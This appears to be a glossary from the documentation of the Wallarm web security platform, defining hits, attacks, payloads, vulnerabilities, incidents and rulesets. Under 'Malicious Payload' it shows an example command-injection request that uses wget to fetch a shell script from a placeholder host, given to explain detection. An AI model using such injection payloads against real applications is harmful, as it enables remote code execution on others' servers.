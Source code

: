 # Glossary

The glossary covers the core Wallarm entities to provide you with a better understanding of the platform.

## Hit

A hit is a serialized malicious request (original malicious request and metadata added by the filtering node), e.g.:

![Hit example](images/user-guides/events/analyze-attack-raw.png)

[Details on hit parameters](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## Attack

An attack is a single hit or multiple hits grouped by the following characteristics:

* The same attack type, the parameter with the malicious payload, and the address the hits were sent to. Hits may come from the same or different IP addresses and have different values of the malicious payloads within one attack type.

    This hit grouping method is basic and applied to all hits.

* The same source IP address if [grouping of hits by source IP](user-guides/events/analyze-attack.md#grouping-of-hits) is enabled. Other hit parameter values can differ.

    This hit grouping method works for all hits except for the ones of the Brute force, Forced browsing, BOLA (IDOR), Resource overlimit, Data bomb and Virtual patch attack types.

    If hits are grouped by this method, the [**Mark as false positive**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) button and the [active verification](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) option are unavailable for the attack.

The listed hit grouping methods do not exclude each other. If hits have characteristics of both methods, they are all grouped into one attack.

An example of an attack including a single hit:

![Attack with one hit](images/glossary/attack-with-one-hit-example.png)

An example of an attack including many hits:

![Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## Malicious Payload

A part of an original request containing the following elements:

* Attack signs detected in a request. If several attack signs characterizing the same attack type are detected in a request, only the first sign will be recorded to a payload.
* Context of the attack sign. Context is a set of symbols preceding and closing detected attack signs. Since a payload length is limited, the context can be omitted if an attack sign is of full payload length.

For example:

* Request:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Malicious payload:

    ```bash
    ;wget+http://s
    ```

    In this payload, `;wget+` is the [RCE](attacks-vulns-list.md#remote-code-execution-rce) attack sign and another part of the payload is the attack sign context.

Since attack signs are not used to detect [behavioral attacks](about-wallarm/protecting-against-attacks.md#behavioral-attacks), requests sent as a part of behavioral attacks have empty payloads.

## Vulnerability
A vulnerability is an error made due to negligence or inadequate information when building or implementing a web application that can lead to an information security risk.

The information security risks are:

* Unauthorized data access; for example, access to read and modify user data.
* Denial of service.
* Data corruption and other.

The Internet traffic can be used to detect the vulnerabilities, which is what Wallarm does, among other functions.

## Security Incident

A security incident is an occurrence of vulnerability exploitation. An incident is an [attack](#attack) targeted at a confirmed vulnerability.

An incident, just like an attack, is an entity external to your system and is a characteristic of the outside Internet, not the system itself. Despite the fact that the attacks targeted at existing vulnerabilities are a minority, they are of the utmost importance in terms of information security. Wallarm automatically detects the attacks targeted at existing vulnerabilities and displays them as a separate object - incident.

## Circular Buffer
A circular buffer is a data structure that uses a single, fixed‑size buffer as if it were connected end‑to‑end.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Custom ruleset (the former term is LOM)

A custom ruleset is a set of compiled security rules downloaded by Wallarm nodes from the Wallarm Cloud.

Custom rules enable you to set up individual rules for the traffic processing, e.g.:

* Mask sensitive data before uploading to the Wallarm Cloud
* Create regexp-based attack indicators
* Apply a virtual patch blocking requests that exploit an active vulnerability
* Disable attack detection in certain requests, etc.

A custom ruleset is not empty by default, it contains the rules created for all clients registered in the Cloud, e.g. the filtration mode rule with the value from the [**Settings → General** tab](admin-en/configure-wallarm-mode.md#setting-up-the-general-filtration-rule-in-wallarm-console).

[More details on custom rulesets](user-guides/rules/intro.md)

## Invalid Request
A request that was checked by filter node and does not match LOM rules.

## Reverse Proxy
A reverse proxy is a type of proxy server that retrieves resources on behalf of a client from a server and returns the resources to the client as if they originated from the Web server itself.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority
A certificate authority is an entity that issues digital certificates.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
